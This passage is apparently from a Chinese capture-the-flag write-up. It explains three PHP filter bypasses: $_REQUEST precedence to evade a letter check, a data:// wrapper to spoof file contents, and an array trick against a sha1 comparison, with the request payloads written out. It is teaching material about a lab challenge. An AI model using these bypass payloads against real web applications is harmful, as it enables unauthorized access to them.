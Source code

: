 继续

## $_REQUEST  特性 post比get先接受参数

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
}  
```

这里是$_REQUEST 的特性 这里会判断 是不是有字母在 $_REQUEST 中

但是我们通过post传递和get传递的时候 POST会被先接受 然后没有字母 就绕过

所以现在是

```cobol
GET
 
?deb%75=aq%75a_is_c%75te%0a
 
 
POST 
 
debu=1
```

## 伪协议data伪造

```cobol
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>"); 
```

这里很简单了

```cobol
GET
 
?deb%75=aq%75a_is_c%75te%0a&file=data://text/plain,deb%75_deb%75_aq%75a
 
 
POST 
 
debu=1&file=2
```

## sha1 === 数组绕过

```cobol
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
} 
```
